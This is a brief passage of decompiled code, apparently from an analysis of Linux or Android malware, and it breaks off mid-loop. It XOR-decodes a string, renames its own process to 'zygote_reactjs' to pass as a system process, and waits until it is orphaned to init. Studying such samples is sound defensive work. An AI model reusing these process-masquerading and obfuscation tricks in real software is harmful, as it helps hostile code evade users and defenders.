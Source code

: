 ```cpp
            }
            else if (counter == '\x01') {
              s_process_0011526f[i] = s_process_0011526f[i] ^ (&DAT_00111b26)[i % 0xd];
              s_process_0011526f[i | 1] = s_process_0011526f[i | 1] ^ (&DAT_00111b26)[(i | 1) % 0xd]
              ;
              i = i + 2;
              unaff_RBP = unaff_RBP + -2;
              counter = (unaff_RBP == 0) + '\x01';
            }
            else {
              counter = '\x01';
              unaff_RBP = 8;
              i = 0;
            }
          }
        }
        zygote_name_ptr = __progname._0_8_;
        *__progname._0_8_ = 'z';
        zygote_name_ptr[1] = 'y';
        zygote_name_ptr[2] = 'g';
        zygote_name_ptr[3] = 'o';
        zygote_name_ptr[4] = 't';
        zygote_name_ptr[5] = 'e';
        zygote_name_ptr[6] = '_';
        zygote_name_ptr[7] = 'r';
        zygote_name_ptr[8] = 'e';
        zygote_name_ptr[9] = 'a';
        zygote_name_ptr[10] = 'c';
        zygote_name_ptr[0xb] = 't';
        zygote_name_ptr[0xc] = 'j';
        zygote_name_ptr[0xd] = 's';
        zygote_name_ptr[0xe] = 0;
        prctl(PR_SET_NAME);
        pid2 = getppid();
        if (pid2 != 1) {
          usleep(50000);
          pid2 = getppid();
          if (pid2 != 1) {
            usleep(50000);
            pid2 = getppid();
            if (pid2 != 1) {
              usleep(50000);
              pid2 = getppid();
              if (pid2 != 1) {
                usleep(50000);
                pid2 = getppid();
                if (pid2 != 1) {
                  usleep(50000);
                  pid2 = getppid();
                  if (pid2 != 1) {
                    usleep(50000);
                    pid2 = getppid();
                    if (pid2 != 1) {
                      usleep(50000);
                      pid2 = getppid();
                      if (pid2 != 1) {
                        usleep(50000);
                        pid2 = getppid();
                        if (pid2 != 1) {
                          usleep(50000);
                          pid2 = getppid();
                          if (pid2 != 1) {
```
